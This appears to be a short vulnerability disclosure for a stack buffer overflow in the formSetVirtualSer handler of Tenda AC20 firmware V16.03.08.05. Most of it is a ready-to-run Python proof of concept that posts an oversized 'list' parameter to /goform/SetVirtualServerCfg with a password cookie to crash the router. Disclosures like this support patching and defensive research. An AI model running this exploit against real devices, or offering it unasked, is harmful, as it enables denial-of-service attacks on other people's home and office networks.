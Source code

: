 A buffer overflow vulnerability in Tenda AC20 V16.03.08.05 occurs because the formSetVirtualSer function does not check the length of input data, which can be exploited by an attacker to launch a denial of service attack. ...

<img width="415" height="169" alt="image" src="https://github.com/user-attachments/assets/1e63aa25-40ef-461f-ac28-69a27813656b" />


POC：
```
from pwn import *
import requests

payload = b'a'*0x1000

url = "http://192.168.100.254/goform/SetVirtualServerCfg"

cookie = {"Cookie":"password=12345"}
data = {"list": payload}
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
```
